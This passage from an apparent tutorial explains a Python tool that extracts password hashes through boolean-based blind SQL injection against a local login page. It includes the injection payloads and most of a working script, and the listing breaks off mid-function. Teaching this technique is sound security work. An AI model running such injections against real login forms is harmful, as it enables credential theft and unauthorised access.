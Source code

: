 This function extracts the password hash for a user, character by character, using the specified charset. It iterates through the hash's length and tests each character until the entire hash is reconstructed.

```python
def total_queries_taken():
    global total_queries
    print("\t[!] {} total queries!".format(total_queries))
    total_queries = 0
```

This utility function displays the total number of queries sent to the server and resets the counter. It helps track the efficiency of the extraction process.

```python
while True:
    try:
        user_id = input("> Enter a user ID to extract the password hash: ")
        if not invalid_user(user_id):
            user_password_length = password_length(user_id)
            print("\t[-] User {} hash length: {}".format(user_id, user_password_length))
            total_queries_taken()
            print("\t[-] User {} hash: {}".format(user_id, extract_hash(charset, int(user_id), user_password_length)))
            total_queries_taken()
        else:
            print("\t[X] User {} does not exist!".format(user_id))
    except KeyboardInterrupt:
        break
```

The main loop allows the user to input a `user_id` and attempts to extract the corresponding password hash. It first checks if the user exists, determines the hash length, and retrieves the hash one character at a time. The process can be terminated by pressing Ctrl+C.

That completes the script for the initial version of the Python tool. The tool is designed to extract password hashes character by character using boolean-based SQL injection queries. Below is the full script for reference:

```python
import requests

total_queries = 0
charset = "0123456789abcdef"
target = "http://127.0.0.1:5000/login"
needle = "Login successful!"

def injected_query(payload):
    global total_queries
    payload = "admin' and {}--".format(payload)
    r = requests.post(target, data={"username": payload, "password": "password"})
    total_queries += 1
    return needle.encode() not in r.content

def boolean_query(offset, user_id, character, operator=">"):
    payload = "(select hex(substr(password, {}, 1)) from users where id = {}) {} hex('{}')".format(offset + 1, user_id, operator, character)
    return injected_query(payload)

def invalid_user(user_id):
    payload = "(select 1 from users where id = {})".format(user_id)
    return injected_query(payload)

def password_length(user_id):
    i = 0
    while True:
```